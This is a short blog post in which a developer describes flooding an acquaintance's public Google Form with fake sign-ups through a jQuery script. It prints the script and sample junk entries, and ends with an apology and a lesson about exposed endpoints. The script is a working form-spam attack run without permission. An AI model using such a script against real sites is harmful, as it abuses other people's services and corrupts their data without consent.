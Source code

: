 ```yaml
---
title: Sorry, I hacked you.
date: '2020-12-29T06:07:10.240Z'
coverImage: ''
originalDatePublished: '2014-11-182016-07-19T16:41:00.000Z'
author:
  name: t0nylombardi
  picture: ''
ogImage:
  url: ''
categories: javascript
tags: javascript
---
```


My biggest concern in developing a website, especially in the current role I have, is to worry about how well a site will perform and how secure it will be. Someone I know from the interwebs posted a site with form that allowed you to sign up to a class of his. I like his work so I was intrigued into how he wrote his backend for the form since he is a front-end developer. His credentials of his backend was in his JS.

```javascript
function postContactToGoogle(f) {
  var email = f.find('.form-email').val();
  var name = f.find('.form-name').val();

  $.ajax({
    url: 'https://docs.google.com/forms/d/jeberish-google-id/formResponse',
    data: {
      entry_1111111111: email,
      entry_1111111117: name,
    },
    type: 'POST',
    dataType: 'xml',
    statusCode: {
      0: function () {
        window.location.replace('/path/thanks');
      },
      200: function () {
        window.location.replace('/path/thanks');
      },
    },
  });
}
```

So I looked at this telling myself it was wrong, or at least there had to be a better way of doing something like that.

I blew up the database(or in this case to a google excel doc) as a challenge to myself to see if I was really right.

```javascript
function rText() {
  var text = '';
  var possible =
    'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789';
  for (var i = 0; i < 5; i++) {
    text += possible.charAt(Math.floor(Math.random() * possible.length));
  }
  return text;
}

function generateEmail() {
  var username, email, full_email;
  username = 'HueBin_';
  email = 'Hacked';
  full_email = username + rText() + '@' + rText() + email + '.com';
  return full_email;
}

function postContactToGoogle() {
  $.ajax({
    url: 'https://docs.google.com/forms/d/jeberish-google-id/formResponse',
    data: {
      entry_1111111111: generateEmail(),
      entry_1111111117: 'HueBin_',
    },
    type: 'POST',
    dataType: 'xml',
    crossDomain: true,
    statusCode: {
      0: function (data) {
        console.log('BAD!', data);
      },
      200: function (data) {
        console.log('GOOD', data);
      },
    },
  });
}

$(function () {
  var num = 1;
  for (var i = 0; i < num; i++) {
    setTimeout(postContactToGoogle(), 50000); // yes thats 50,000!
  }
});
```

this posted info into the database that looked simular to this:

`name: HueBun_,Email:HueBin_piMt6@vwq4WHacked.com`

`name: HueBun_,Email:HueBin_f7Txq@pzLm6Hacked.com`

`name: HueBun_,Email:HueBin_YBTNf@TluieHacked.com`

`name: HueBun_,Email:HueBin_QYqVm@jYWuUHacked.com`

I wrote an email stating that I was really really sorry about it. More so, I meant to contact him sooner, but I just entered another year in my life and I took the weekend off from electronics (mainly because of beer)

conclusion: don't smoke crack! No, when putting anything out in to the publics eyes, do not put the keys to the castle out there for everyone to see. Also, don't go my route. Instead inform of the person of potential bugs rather than acting on exploiting them.
